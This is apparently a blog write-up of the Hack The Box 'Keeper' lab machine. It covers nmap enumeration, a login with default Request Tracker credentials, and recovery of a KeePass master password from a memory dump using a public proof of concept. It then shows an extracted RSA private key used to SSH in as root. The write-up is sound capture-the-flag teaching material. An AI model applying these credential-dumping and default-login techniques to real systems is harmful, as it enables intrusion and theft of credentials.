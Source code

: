 ```yaml
---
layout: post
title: "HTB: Keeper"
author: Andrew Cherney
date: 2024-02-10 11:07:36
tags: htb easy-box pki webapp cve
icon: "assets/icons/keeper.png"
post_description: "Simple and short. Looking through the ticket tracking service we find a way to login as the user, after that we can dump the credentials to a password manager and ssh in as root."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

<h2>nmap</h2>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Keeper]
└──╼ $nmap -sC 10.10.11.227
Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-29 20:01 CDT
Nmap scan report for 10.10.11.227
Host is up (0.053s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http
|_http-title: Site doesn't have a title (text/html).

```

<h2>http - port 80</h2>

![homepage redirect](/img/keeper/keeper_homepage.png)

![ticket tracking login](/img/keeper/keeper_ticket_login.png)

<h1>User as Inorgaard</h1>

We are met with a redirect to a ticket tracking service. This version of request tracker didn't seem to have any CVEs or exploit-db posts when searching. I decided a good additional start place was to check the default credentials for this service, which are incidentally *root:password*.

![admin page](/img/keeper/keeper_admin_page.png)

A basic overview of this site is to respond to tickets submitted by users. Here there is one recently viewed ticket which references a **.dmp** file that has been removed as an attachment.

![recent ticket](/img/keeper/keeper_ticket_view.png)

The admin here is named **Inorgaard** so I headed over to his profile to see if it leaked the **.dmp** file or anything else. 

![Inorgaard user profile](/img/keeper/keeper_Inorgaard_user_page.png)

Well that's a commented password.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Keeper]
└──╼ $ssh lnorgaard@keeper.htb
lnorgaard@keeper.htb\'s password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Tue Aug 29 11:00:15 2023 from 10.10.14.9
lnorgaard@keeper:~$ whoami
lnorgaard
lnorgaard@keeper:~$ cat user.txt
b47c29c1363fb-------------------
lnorgaard@keeper:~$ ls
KeePassDumpFull.dmp passcodes.kdbx RT30000.zip  user.txt
```

<h1>Root</h1>

<h2>KeePass password dumping</h2>

There is an obvious place to look here and that is at the **KeePassDumpFull.dmp** file. There exists [a way to dump the passwords of certain versions of KeePassDumpFull](https://github.com/vdohney/keepass-password-dumper) and I will be using [a python variant of that code](https://github.com/CMEPW/keepass-dump-masterkey).

TLDR: .NET is awful and stores every character typed in memory and it doesn't go away, searching for the patterns that are left behind can reveal most of the characters (dependent on some factors). The first github page also gives some remediation which includes deleting a ton of files that might have stored this info and reformatting your drive and reinstalling your OS. 

```bash
lnorgaard@keeper:~$ python3 /tmp/poc.py KeePassDumpFull.dmp 
2023-08-30 03:59:09,467 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

From what I was reading the only character that cannot be read should be the first one, but there are 3 which in fact are not read ... or are not standard characters. In searching on duck I found [Rødgrød med fløde, a Danish berry pudding](https://nordicfoodliving.com/danish-red-berry-pudding-rodgrod-med-flode/), which lines up nicely with the name Inorgaard, or formatted a little better first initial **I** [last name Norgaard](https://en.wikipedia.org/wiki/N%C3%B8rgaard).

![KeyPass Danish Password Login](/img/keeper/keepass_password.png)

![KeyPass Passwords](/img/keeper/keepass_vault.png)

From that password vault I get a root password and an additional note of a Putty **.ppk** file. I tried to ssh in but I was denied, it seems I need the key extracted from that putty keyring. 

As of note I needed the newest version of putty and the commandline latest version did not work for me.

![Putty Key extraction](/img/keeper/putty_openssh_export.png)

```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAp1arHv4TLMBgUULD7AvxMMsSb3PFqbpfw/K4gmVd9GW3xBdP
c9DzVJ+A4rHrCgeMdSrah9JfLz7UUYhM7AW5/pgqQSxwUPvNUxB03NwockWMZPPf
Tykkqig8VE2XhSeBQQF6iMaCXaSxyDL4e2ciTQMt+JX3BQvizAo/3OrUGtiGhX6n
FSftm50elK1FUQeLYZiXGtvSQKtqfQZHQxrIh/BfHmpyAQNU7hVW1Ldgnp0lDw1A
MO8CC+eqgtvMOqv6oZtixjsV7qevizo8RjTbQNsyd/D9RU32UC8RVU1lCk/LvI7p
5y5NJH5zOPmyfIOzFy6m67bIK+csBegnMbNBLQIDAQABAoIBAQCB0dgBvETt8/UF
NdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6joDni1wZdo7hTpJ5Zjdmz
...
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Keeper]
└──╼ $chmod 400 keeper.pem 
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Keeper]
└──╼ $ssh root@keeper.htb -i keeper.pem 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug 29 20:17:33 2023 from 10.10.14.6
root@keeper:~# cat /root/root.txt
7986808062cb4-------------------
```
